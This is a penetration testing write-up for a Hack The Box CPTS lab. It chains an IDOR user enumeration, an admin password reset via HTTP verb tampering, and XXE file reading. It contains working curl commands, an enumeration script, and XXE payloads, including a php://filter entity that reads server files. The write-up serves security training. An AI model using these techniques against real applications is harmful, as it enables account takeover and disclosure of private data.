

## Penetration Testing Report – CPTS HTB Module


### Objective

The goal of this assessment was to test the provided web application (accessible via a given IP and port) for security issues, identify vulnerabilities, and attempt to exploit them in order to demonstrate potential risks.

Credentials for one standard user account were also provided as part of the exercise.


### Initial Access & Reconnaissance

I used the supplied credentials to log into the application. After login, I observed the following accessible endpoints:

- `/profile.php` – the main profile page.  
- `/settings.php` – password reset functionality for the current account.  
- `/profile.php?logout=1` – logout option.  

On the **profile page**, the only visible user-related information was:

- Full name  
- Organization  

While investigating `/profile.php`, I noticed that the page requested additional user data dynamically. This was done via a **GET request** containing the `uid` parameter:


The HTML source code also confirmed this behavior:


The direct use of numeric UID values suggested a potential **Insecure Direct Object Reference (IDOR) vulnerability**. To validate, I tried requesting data from other users:


```bash
[★]$ curl -s http://<target_ip>:<target_port>/api.php/user/74
{"uid":"74","username":"htb-student","full_name":"Paolo Perrone","company":"Schaefer Inc"}

[★]$ curl -s http://<target_ip>:<target_port>/api.php/user/73
{"uid":"73","username":"s.nutt","full_name":"Sequoia Nutt","company":"Wiza - Abernathy"}
```

The server returned valid user data for arbitrary UIDs, confirming an **IDOR vulnerability** and allowing enumeration of users.


### Enumeration Strategy

At this stage, my thought process was:

 - With only a normal user account, privilege escalation would require discovering higher-privileged accounts.
 - Since no explicit **roles** appeared in the responses, I needed another approach.

I considered two methods:

 - Search for usernames or companies containing patterns like `admin`, `root`, or `flag`.
 - Compare `/profile.php` pages of different users to detect additional functionality.

To implement this, I wrote a simple script to enumerate users:

```bash
#!/bin/bash
for i in {1..100}; do
    curl -s "http://<target_ip>:<target_port>/api.php/user/$i"
done
```

I determined the range `1..100` experimentally:

 - `uid=0` → invalid
 - `uid=1` and `uid=100` → valid responses
 - `uid=101` → invalid

This enumeration confirmed that user data could be retrieved for arbitrary `uid`s.

Using the keyword search method described in the *Enumeration Strategy*, I reviewed the output of my script and identified a privileged account:

```bash
[★]$ curl -s http://<target_ip>:<target_port>/api.php/user/52
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```


### Exploitation – Password Reset Abuse

#### Vulnerability Discovery

In the source code of `settings.php`, I found the password reset logic:

```javascript
function resetPassword() {
    if ($("#new_password").val() == $("#confirm_new_password").val()) {
        $("#error_string").html('');
        fetch(`/api.php/token/${$.cookie("uid")}`, {
            method: 'GET'
        }).then(function(response) {
            return response.json();
        }).then(function(json) {
            fetch(`/reset.php`, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                body: `uid=${$.cookie("uid")}&token=${json['token']}&password=${$("#new_password").val()}`
            }
```

The workflow:

 - A token is retrieved via `/api.php/token/{uid}`.
 - A POST request is made to `/reset.php` with `uid`, `token`, and the new `password`.


#### Attempting Exploitation

Step 1 – Get token for the admin user:

```bash
[★]$ curl -s "http://<target_ip>:<target_port>/api.php/token/52"
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

Step 2 – Attempt to reset the password:

```bash
[★]$ curl -s "http://<target_ip>:<target_port>/reset.php" -X POST -d "uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=hello"
Access Denied
```

The application blocked a normal POST-based password reset attempt.


### HTTP Verb Tampering

Since POST failed, I considered alternative methods such as **HTTP Verb Tampering**. I retried the request as **GET** instead of POST:


This time, the request succeeded and the password was changed.

I was now able to log in as *Amor Corrales* (Administrator).



**Impact:**
The server incorrectly allows state-changing operations via GET requests, enabling **privilege escalation**. This demonstrates a lack of proper HTTP method enforcement and insufficient authorization checks.


### Post-Exploitation – XXE Injection

With administrator privileges, I accessed the **Event Creation** feature at `/event.php`. Submissions were handled by `/addEvent.php`, which processed the event data in XML format.


A typical request body looked like this:

```xml
<root>
    <name>hello</name>
    <details>test hello</details>
    <date>2003-03-03</date>
</root>
```

The request body structure indicated that XML data is parsed, suggesting the potential for **XXE (XML External Entity) Injection**.

#### XXE Test

Payload to confirm injection:

```xml
<!DOCTYPE email [
  <!ENTITY hello "Test hello">
]>
<root>
    <name>&hello;</name>
    <details>test hello</details>
    <date>2003-03-03</date>
</root>
```

Response:

```
Event 'Test hello' has been created.
```

This confirmed the **XXE vulnerability**.

#### Reading Sensitive Files

The task description specified that the flag was stored in `/flag.php` file. To safely retrieve its contents, a **base64-encoded XXE payload** was used to avoid unsafe characters or binary data issues:

```xml
<!DOCTYPE email [
  <!ENTITY hello SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
<root>
    <name>&hello;</name>
    <details>test hello</details>
    <date>2003-03-03</date>
</root>
```

Response contained Base64-encoded file contents:

```
Event 'PD9waHAgJGZsYWcgPS************************************sgPz4K' has been created.
```

Decoding:

```bash
[★]$ echo 'PD9waHAgJGZsYWcgPS************************************sgPz4K' | base64 -d
<?php $flag = *************************; ?>
```

Flag successfully retrieved.


## Conclusion

The web application was found to be vulnerable to multiple critical security issues. Exploiting the **IDOR vulnerability** allowed enumeration of user accounts, and **HTTP Verb Tampering** enabled unauthorized password reset of an administrative account, leading to full administrative access. With admin privileges, the **XXE vulnerability** in the event creation feature was leveraged to read arbitrary files, ultimately retrieving the assessment flag from `/flag.php`.

This confirms the presence of critical access control and input validation weaknesses that could be exploited to compromise sensitive data and user accounts.

### Key Takeaways

 - **IDOR** allowed enumeration of all user accounts, including privileged users.
 - Improper enforcement of HTTP methods enabled privilege escalation via password reset.
 - **XXE injection** in XML processing allowed arbitrary file disclosure.
 - Exploitation of these vulnerabilities led to retrieval of the assessment flag.